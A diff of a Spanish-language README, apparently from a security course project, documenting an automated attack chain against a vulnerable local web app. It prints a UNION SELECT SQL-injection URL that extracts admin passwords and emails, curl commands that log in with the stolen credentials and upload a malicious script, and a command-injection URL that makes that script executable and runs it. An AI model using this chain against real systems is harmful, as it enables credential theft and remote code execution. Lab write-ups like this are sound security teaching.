

Before and after one commit to altamirano146080/CodigoSSI, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -40,13 +40,16 @@ El sistema está configurado para que se ejecute automáticamente en el arranque
 #### Paso 2: Explotación de la vulnerabilidad (RCE)
 
 1. **Explotación de Inyección SQL**:
+2.
    En el script `automatizado.sh`, se realiza una solicitud HTTP con una inyección SQL en el parámetro `rover_id`:
    ```bash
    fetch_url="http://localhost/web/final/ulio-html/listadoFotosRovers.php?rover_id=%27e%27%20UNION%20SELECT%20fa.contrasena,%20fa.gmail,%201,%202,%203%20FROM%20final_usuarios%20fa,%20final_administradores%20f%20WHERE%20f.usuario_id%20=%20fa.id"
    ```
    La inyección SQL utiliza `UNION SELECT` para combinar las tablas `final_usuarios` y `final_administradores` y extraer las contraseñas (`fa.contrasena`) y los correos electrónicos (`fa.gmail`) de los usuarios. Esta información se extrae utilizando `jq` para manejar la respuesta JSON y extraer los valores de las credenciales.
 
-2. **Login de administrador**:
+   En este escenario, la necesidad de obtener las credenciales de administrador se debe a que, aunque el sistema permite que los usuarios normales se registren y accedan a la página, solo los administradores tienen privilegios especiales, como la capacidad de subir archivos.
+
+4. **Login de administrador**:
    Los datos obtenidos de la inyección se usan para realizar un login automático con `curl`, enviando las credenciales extraídas del ataque:
    ```bash
    curl -X POST \
@@ -58,14 +61,14 @@ El sistema está configurado para que se ejecute automáticamente en el arranque
    ```
    Esto permite al atacante obtener acceso como administrador en la web.
 
-3. **Subida de archivo malicioso**:
+5. **Subida de archivo malicioso**:
    Una vez autenticado, el atacante sube un archivo malicioso (`gdb.sh`) al servidor mediante una solicitud POST:
    ```bash
    curl -X POST -F "profile_picture=@gdb.sh" http://localhost/web/final/dashmin/upload.php
    ```
    Este archivo contiene un script que intentará ejecutar comandos en el servidor, probablemente con la intención de obtener una shell.
 
-4. **Ejecución de comando**:
+6. **Ejecución de comando**:
    El script luego realiza una llamada a la URL que ejecuta comandos en el servidor (`files_url_root`) para ejecutar el archivo malicioso subido. El comando intenta cambiar permisos del archivo `gdb.sh` para hacerlo ejecutable y luego lo ejecuta:
    ```bash
    files_url_root="http://localhost/web/final/dashmin/list_uploads.php?comando=ls%20uploads%3B%20cd%20uploads;chmod%20744%20gdb.sh;./gdb.sh"
````
